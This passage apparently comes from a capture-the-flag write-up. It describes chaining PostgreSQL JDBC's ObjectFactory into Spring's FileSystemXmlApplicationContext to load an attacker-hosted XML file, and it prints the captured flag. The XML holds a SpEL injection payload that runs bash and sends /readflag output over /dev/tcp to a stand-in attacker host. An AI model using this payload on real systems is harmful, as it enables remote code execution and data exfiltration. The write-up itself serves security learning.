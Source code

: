 Anyway, `org.postgresql.util.ObjectFactory` has the `.instantiate` method which
can be used to create `FileSystemXmlApplicationContext` with correct
arguments. This class will parse external XML using templating processing,
which we can again host on attacker server. This time, our SSTI will have 0
restrictions :)

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
        xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean class="#{T(java.lang.Runtime).getRuntime().exec(
        new String[] {
        '/bin/bash', '-c', '/readflag > /dev/tcp/attacker/port'
        }
        )}"></bean>
</beans>
```

Flag: `rwctf{b2ed2442-b9e0-11ee-a668-00163e01b905}`

Anyway, this was a good intro back to CTFs after I stopped for so long. I
should probably play more (DiceCTF Quals coming soon :O)
